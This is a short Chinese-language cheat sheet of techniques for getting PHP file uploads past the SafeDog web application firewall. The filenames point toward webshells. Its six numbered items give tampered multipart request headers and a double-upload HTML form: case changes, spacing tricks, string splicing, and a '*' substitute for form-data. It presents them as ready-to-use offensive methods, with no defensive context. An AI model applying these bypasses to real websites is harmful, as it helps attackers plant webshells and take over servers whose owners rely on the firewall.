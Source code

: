 ## 文件上传绕过姿势整理

### WAF绕过

#### 安全狗绕过

1.绕过思路：对文件的内容，数据。数据包进行处理。

```
关键点在这里Content-Disposition: form-data; name="file"; filename="ian.php"
将form-data;            修改为~form-data;
```

2.通过替换大小写来进行绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将Content-Disposition    修改为content-Disposition
将 form-data            修改为Form-data
将 Content-Type         修改为content-Type
```

3.通过删减空格来进行绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将Content-Disposition: form-data          冒号后面 增加或减少一个空格
将form-data; name="file";                分号后面 增加或减少一个空格
将 Content-Type: application/octet-stream   冒号后面 增加一个空格
```

4.通过字符串拼接绕过

```
看Content-Disposition: form-data; name="file"; filename="yjh3.php"
将 form-data 修改为   f+orm-data
将 from-data 修改为   form-d+ata
```

5.双文件上传绕过

```
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
name="form1" enctype="multipart/form‐data">
<input name="FileName1" type="FILE" class="tx1" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传">
</form>
```

6.HTTP header 属性值绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
我们通过替换form-data 为*来绕过
Content-Disposition: *; name="file"; filename="yjh.php"
```
